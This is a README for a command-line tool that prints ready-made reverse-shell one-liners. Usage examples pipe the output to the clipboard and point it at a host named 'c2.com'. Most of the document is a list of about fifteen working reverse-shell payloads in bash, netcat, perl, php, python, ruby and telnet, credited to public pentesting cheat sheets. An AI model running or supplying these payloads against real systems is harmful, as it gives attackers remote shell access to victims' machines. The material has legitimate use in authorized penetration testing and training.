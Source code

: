 # Reverse Shell Generator

Sometimes searching the internet for a reverse shell and changing its values is a pain, that's what this tool is for.

When executed it prints out the reverse shell (so you can pipe it to `xclip` and rapidly paste it) and writes it to a file in case you need it later.

## Installation

```
chmod +x reversegen
sudo ln -s $(pwd)/reversegen.py /usr/local/bin/reversegen
```

## Usage:

```
reversegen <Method> <IP> <Port>
```

Example of usage: 

```
reversegen python 192.168.1.10 4444
reversegen python c2.com 4444
```

Example of copying the result:

```
reversegen bash 10.10.1.14 1234 | xclip -selection clipboard
reversegen bash c2.com 1234 | xclip -selection clipboard
```

## Available Methods

- bash: `bash -i >& /dev/tcp/IP/PORT 0>&1`
- bash2: `0<&196;exec 196<>/dev/tcp/IP/PORT; sh <&196 >&196 2>&196`
- netcat: `nc -e /bin/sh IP PORT`
- netcat2: `/bin/sh | nc IP PORT`
- netcat3: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f]`
- netcat4: `rm -f /tmp/p; mknod /tmp/p p && nc IP PORT 0/tmp/p`
- perl: `perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
- perl2 (Doesn't use */bin/sh*): `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`
- perl3 (For Windows): `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`
- php: `php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`
- python: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- ruby: `ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`
- ruby2 (Doesn't use */bin/sh*): `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`
- ruby3 (For Windows): `ruby -rsocket -e 'c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`
- telnet: `rm -f /tmp/p; mknod /tmp/p p && telnet IP PORT 0/tmp/p`

## Credits for the Reverse Shells to:

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Bernardo Damele](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
